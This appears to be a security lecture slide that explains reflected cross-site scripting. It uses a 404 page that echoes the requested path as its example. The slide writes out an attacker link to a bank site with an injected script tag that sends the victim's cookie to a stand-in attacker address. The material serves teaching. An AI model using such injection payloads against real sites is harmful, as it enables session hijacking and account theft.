

# Reflected Cross-Site Scripting
Broken links are a pain and sometimes a site tries to be user-friendly by providing meaningful error messages:
<html>
[…]
404 page does not exist: ~vigna/secrets.html
</html>
The attacker lures the user to visit a page written by the attacker and to follow a link to a sensitive, trusted site
The link is in the form:
<a href="http://www.usbank.com/<script>send-CookieTo(evil@hacker.com)</script>">US Bank</a>
273